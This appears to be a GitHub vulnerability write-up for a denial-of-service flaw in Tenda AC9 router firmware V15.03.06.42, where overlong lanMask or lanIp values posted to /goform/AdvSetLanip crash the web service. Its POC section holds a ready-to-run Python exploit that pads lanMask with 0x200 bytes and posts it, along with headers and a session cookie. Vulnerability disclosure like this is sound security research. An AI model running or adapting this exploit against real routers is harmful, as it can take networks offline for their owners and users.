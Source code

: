 # Tenda_AC9_AdvSetLanip_Denial_of_service 

Vender ：Tenda

Firmware version:US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com)

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-2908.html

#### Describe

In Tenda AC9 ,firemware is US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin， In the option to control LAN setting, lanmask and lanip in the post  request are not limited in length.   Denial of service caused by The subsequent getIPType function

#### Detail

<img src="./img/image-20210917193316992.png" alt="image-20210917193316992" style="zoom:50%;" />

#### TEST

<img src="./img/image-20210917190621960.png" alt="image-20210917190621960" style="zoom:50%;" />



 Web services will crash

<img src="./img/image-20210917192448620.png" alt="image-20210917192448620" style="zoom:50%;" />



#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/AdvSetLanip"

payload = "a"*0x200
f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"lanIp":"192.168.33.9",
	"lanMask":"255.255.255.0"+payload,
	"dhcpEn": "",
	"startIp":"",
	"endIp":"",
	"leaseTime":"604800",
	"lanDnsAuto":"1",
	"lanDns1":"",
	"lanDns2":""
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/lan.html?random=0.6683676169698874&",
	"Upgrade-Insecure-Requests":"1",
	"Cookie":"password=wnucvb"
}
response = requests.request("POST", url, headers=headers, data=data)
```

